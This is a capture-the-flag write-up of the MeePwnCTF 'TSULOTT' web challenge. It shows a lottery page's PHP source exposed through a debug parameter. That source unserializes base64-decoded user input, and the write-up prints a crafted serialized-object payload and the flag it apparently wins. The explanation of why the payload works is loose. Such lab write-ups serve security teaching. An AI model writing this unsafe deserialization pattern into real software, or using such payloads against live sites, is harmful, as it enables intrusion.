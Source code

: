 # TSULOTT

**100 pts**

> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!

> Remote: [128.199.190.23:8001](128.199.190.23:8001)

---

# Writeups
![](../../../../res/Screenshot_20170716_184808.png)

## Think simple
![](../../../../res/Screenshot_20170714_204246.png)
- Lets check the source code from the web.
- Here we can see a comment,
    ```HTML
    <!-- GET is_debug=1 -->
    ```
    mmmm... why not [128.199.190.23:8001?is_debug=1](128.199.190.23:8001?is_debug=1).
- Awesome! now we can read the server code, it is written in PHP.

```php
<body> 
<style> 
input[type=text] { 
    width: 40%; 
    padding: 12px 20px; 
    margin: 8px 0; 
    box-sizing: border-box; 
    border: 2px solid red; 
    background-color: #ebfff8; 
    border-radius: 4px; 
} 

button[type=submit] { 
    width: 10%; 
    background-color: #F94848; 
    color: white; 
    padding: 14px 20px; 
    margin: 8px 0; 
    border: none; 
    border-radius: 4px; 
    cursor: pointer; 
} 

button[type=submit]:hover { 
    background-color: #45a049; 
} 

body { 
    background-image: url("money.jpg"); 
} 
</style> 

<?php 
class Object  
{  
  var $jackpot; 
  var $enter;  
} 
?> 


<?php 

include('secret.php'); 

if(isset($_GET['input']))   
{ 
  $obj = unserialize(base64_decode($_GET['input'])); 
  if($obj) 
  { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);  
    if($obj->enter === $obj->jackpot) 
    { 
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>"; 
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>"; 
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>"; 

    } 
    else 
    { 
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>"; 
    } 
  } 
  else 
  { 
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>"; 
  } 
} 
else 
{ 
  echo ""; 
} 
?> 
<center> 
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2> 
<p><p><font color='white'>Input your code to win jackpot!</font><p> 
<form> 
          <input type="text" name="input" /><p><p> 
          <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if (isset($_GET['gen_code']) && !empty($_GET['gen_code'])) 
{ 
  $temp = new Object; 
  $temp->enter=$_GET['gen_code']; 
  $code=base64_encode(serialize($temp));  
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>'; 
} 
?> 
<center> 
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font> 
<h3><font color='white'>Take code</font></h3><p> 
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p> 
<form> 
      <input type="text" name="gen_code" maxlength="17" /><p><p> 
      <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1') 
{ 
   show_source(__FILE__); 
} 
?> 
<!-- GET is_debug=1 --> 
</body> 
```

## Injection
The flag is rendered after this condition:
```php
if($obj->enter === $obj->jackpot)
```
Reading the PHP code we can notice the vulnerability. PHP Object Injection.
Get the input and try to unserialize it as an Object.
```php
$obj = unserialize(base64_decode($_GET['input']));
```
We need the enter value and the jackpot value of the object to be the same, but we will never manage to get it right. The object is serialized and then the jackpot attribute is setted as random.
```php
$obj = unserialize(base64_decode($_GET['input'])); 
if($obj) { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot);
...
}
```

Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL
    ```json
        INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
    ```
    ```json
        OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
    ```
    
## Win the lottery
Paste the output into the form and voilà:
> ```
    MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}
  ```

![](../../../../res/Screenshot_20170716_184808.png)
